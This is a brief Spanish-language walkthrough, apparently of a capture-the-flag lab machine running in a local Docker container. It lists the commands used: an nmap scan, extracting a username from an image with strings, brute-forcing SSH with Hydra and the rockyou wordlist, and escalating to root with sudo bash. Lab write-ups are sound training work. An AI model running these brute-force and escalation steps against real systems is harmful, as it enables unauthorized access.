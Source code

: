
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![[Pasted image 20250131105151.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250131105319.png]]

Nos metemos en la web:

![[Pasted image 20250131105920.png]]

Descargamos imagen:

![[Pasted image 20250131105905.png]]

Buscamos cadenas con **strings**:

```
strings imagen.jpeg
```

![[Pasted image 20250131110034.png]]

Fuerza Bruta con **Hydra**:

```Bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20250131110218.png]]

Nos conectamos con **SSH**:

```
ssh borazuwarah@172.17.0.2
```

![[Pasted image 20250131110247.png]]

Elevamos privilegios:

```
sudo -l
```

![[Pasted image 20250131110321.png]]

```
sudo bash
```

![[Pasted image 20250131110401.png]]

```
whoami
```

![[Pasted image 20250131110425.png]]